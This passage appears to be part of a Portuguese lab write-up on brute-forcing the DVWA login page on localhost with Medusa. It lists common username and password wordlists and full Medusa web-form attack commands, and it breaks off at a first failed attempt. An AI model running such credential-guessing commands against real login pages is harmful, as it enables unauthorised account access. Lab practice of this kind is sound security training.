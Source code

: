 ## 5. Testes com Medusa

### Preparação para os Testes

#### Criação das Wordlists

Antes de iniciar os testes com Medusa, preparei wordlists específicas e realistas:

**usernames.txt:**
```bash
administrator
root2
admin
root
admin2
test
user
username
```

**passwords.txt:**
```bash
admin
123456
letmein
password
default
test
pass123
```

**Justificativa das Wordlists:**
- **Usernames**: Incluí variações comuns de "admin" e usuários padrão
- **Passwords**: Senhas comuns e default do DVWA ("password")
- **Tamanho controlado**: Para testes rápidos e eficientes

#### Comando Base do Medusa

```bash
medusa -h 127.0.0.1 -U usernames.txt -P passwords.txt -M web-form \
  -m FORM:"/login.php" \
  -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=&password=&Login=Login" \
  -n 42001 \
  -v 4
```

### Primeira Tentativa - Falha Imediata

**Comando Executado:**
```bash
medusa -h 127.0.0.1 -U usernames.txt -P passwords.txt -M web-form \
  -m FORM:"/login.php" \
  -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=&password=&Login=Login" \
  -v 4
```
